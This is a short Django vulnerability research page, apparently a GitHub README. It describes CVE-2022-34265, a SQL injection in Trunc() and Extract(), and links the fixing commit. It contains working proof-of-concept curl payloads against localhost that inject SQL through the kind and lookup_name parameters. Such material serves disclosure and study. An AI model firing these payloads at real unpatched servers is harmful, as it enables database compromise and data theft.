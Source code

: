 # Django Vulnerability Research

## Vulnerabilities

### [CVE-2022-34265](https://www.cvedetails.com/cve/CVE-2022-34265)

#### Description

- **CWE-89**: Improper Neutralization of Special Elements used in an SQL Command
- **CVSS**: 9.8 CRITICAL
- **EPSS**: 0.54%
##### Cause

- SQL Injection due to an Improper Neutralization of special elements used in the following functions with these arguments:
	- `Trunc()` - `kind`
	- `Extract()` - `lookup_name`
##### Impact

- Complete compromise of a user information
#### Commit

- [# Refs CVE-2022-34265 -- Properly escaped Extract() and Trunc() parameters.](https://github.com/django/django/pull/15820/commits/877c800f255ccaa7abde1fb944de45d1616f5cc9)
#### PoC

```bash
# Normal URL
curl "http://localhost:4131/extract/?lookup_name=year"
curl "http://localhost:4131/trunc/?kind=year"

# URL where the database instruction can be executed
curl "http://localhost:4131/extract/?lookup_name=year%27%20FROM%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
curl "http://localhost:4131/trunc/?kind=year%27,%20start_datetime))%20OR%201=1;SELECT%20PG_SLEEP(5)--"
```

- Discovered by **Takuto Yoshikai (Aeye Security Lab)**
- Please check the following GitHub Repository for more information: [CVE-2022-34265](https://github.com/aeyesec/CVE-2022-34265)

### [CVE-2020-13524](https://nvd.nist.gov/vuln/detail/CVE-2020-13524)

### [CVE-2020-7471](https://nvd.nist.gov/vuln/detail/CVE-2020-7471)

### [CVE-2019-19844](https://nvd.nist.gov/vuln/detail/CVE-2019-19844)

### [CVE-2014-0472](https://nvd.nist.gov/vuln/detail/CVE-2014-0472)

## Resources

- [Django - Archive of security issues](https://docs.djangoproject.com/en/dev/releases/security/)
